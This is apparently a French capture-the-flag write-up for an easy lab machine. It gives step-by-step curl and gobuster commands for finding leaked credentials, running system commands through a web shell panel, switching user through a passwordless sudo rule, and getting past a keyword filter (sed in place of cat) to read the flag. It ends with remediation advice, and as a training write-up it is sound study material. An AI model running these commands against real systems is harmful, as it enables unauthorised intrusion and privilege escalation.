






# H4ck3rz

Difficulté : Easy
Catégorie : Fuzz

## 1. Reconnaissance
```bash
nmap 10.10.0.11
```

Deux ports ouverts : 22 (ssh) et 80 (http)



## 2. Énumération web

```bash
gobuster dir -u http://10.10.0.11/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
curl http://10.10.0.11/robots.txt
gobuster dir -u http://10.10.0.11/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt,html
```

On peut voir que robots.txt révèle un chemin caché, /1337_53CR37_l41r. Le deuxième gobuster découvre login.php et portal.php.



## 3. Découverte des identifiants

```bash
curl http://10.10.0.11/1337_53CR37_l41r/
curl http://10.10.0.11/index.html
```

La page cachée contient un mot de passe en clair :

```html
<p>Just in case I forgot, password to my super future 42sh: 8ES7_SHeLL_Ev4H</p>
```

Le code source de index.html contient un commentaire HTML avec un username :

```html
<!--
  STOP READING if you're not me!
  Remember username: d4rk_T1t0u4N
-->
```

Sur portal.php, contenait une chaîne encodée en double base64. Décodée, elle donne "have you heard of a rabbit hole? You should look it up, you just fell in one!" qui était donc un piège.



## 4. Authentification

Premier essai avec les identifiants trouvés :
```bash
curl -X POST http://10.10.0.11/login.php -d "username=d4rk_T1t0u4N&password=8ES7_SHeLL_Ev4H"
```
La page se recharge sans erreur ni redirection.

Avec le bon paramètre :
```bash
curl -X POST http://10.10.0.11/login.php -d "username=d4rk_T1t0u4N&password=8ES7_SHeLL_Ev4H&sub=Login" -c cookie.txt -v
```
Réponse 302 Found vers /portal.php : authentification réussie.



## 5. Exécution de commande

Après authentification, une requête sur portal.php affiche le code de la page :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php
```
Le HTML renvoyé contient un formulaire "Shell Panel", avec un champ nommé command et un bouton nommé sub (valeur Execute). C'est ce formulaire qui exécute des commandes système côté serveur.

```bash
curl -b cookie.txt http://10.10.0.11/portal.php -d "command=id&sub=Execute"
```
Résultat : `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.



## 6. Escalade de privilèges et récupération du flag

Une recherche directe du fichier échoue :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=find / -name user.txt 2>/dev/null" -d "sub=Execute"
```
Résultat vide. En listant /home :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=ls -la /home" -d "sub=Execute"
```
Le dossier /home/titouan appartient à l'utilisateur titouan.

Vérification des droits sudo de www-data :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=sudo -l" -d "sub=Execute"
```
La règle (titouan) NOPASSWD: ALL autorise www-data à exécuter n'importe quelle commande en tant que titouan, sans mot de passe :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=sudo -u titouan whoami" -d "sub=Execute"
```
Confirme le changement d'identité (titouan).

Une tentative de lecture directe échoue à cause d'un filtre de mots-clés :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=sudo -u titouan cat /home/titouan/user.txt" -d "sub=Execute"
```
"Command contain some forbidden keywords". Le mot cat est filtré. 
Mais il existe d'autre commande, sed -n p a été testée et a fonctionné :
```bash
curl -b cookie.txt http://10.10.0.11/portal.php --data-urlencode "command=sudo -u titouan sed -n p /home/titouan/user.txt" -d "sub=Execute"
```

**Flag : EPI{71me_70_D0_7H05E_NcuR5e2}**



## Vulnérabilités identifiées

Le site donnait sans le vouloir des informations qu'il ne devrait pas donner. Le nom d'utilisateur était caché dans un commentaire du code source, et le mot de passe était sur une page qu'il suffisait de visiter directement. Ces informations ne devraient jamais être accessibles aussi facilement.

Le problème le plus grave se trouvait sur la page du shell. Elle exécutait directement les commandes tapées par un visiteur, comme un vrai terminal. Un site ne devrait jamais laisser quelqu'un exécuter des commandes système de cette façon.

En plus de ça, une mauvaise configuration permettait de changer de compte utilisateur sans avoir besoin d'un mot de passe. Cela donnait accès à un compte avec plus de droits très facilement.

Enfin, le site essayait de bloquer certains mots pour empêcher certaines commandes. Mais il suffisait d'utiliser un mot différent pour obtenir le même résultat, donc cette protection ne servait pas à grand chose.

Pour corriger tout ça, il faudrait ne jamais mettre d'informations sensibles dans du code visible par tout le monde, ne jamais laisser un site exécuter des commandes tapées par un visiteur, et donner le minimum de droits possible à chaque compte.

## Points clés

robots.txt n'est pas une vraie protection, juste une liste de chemins que les robots ne doivent pas visiter, rien n'empêche d'y aller quand même.

Quand une commande ne donne pas le résultat attendu, mieux vaut comparer avec une autre tentative différente pour comprendre pourquoi, plutôt que de conclure trop vite que ça ne marche pas.

Avant de faire des choses compliquées avec un accès trouvé, on teste d'abord avec une commande simple et inoffensive (comme id) pour vérifier que ça fonctionne vraiment.

Si un utilisateur a le droit d'utiliser sudo sans mot de passe vers un autre compte, on peut changer d'identité facilement.

Enfin, si un mot est bloqué par un filtre, ça ne veut pas dire que l'action est impossible, il existe souvent une autre commande qui fait la même chose avec un mot différent.
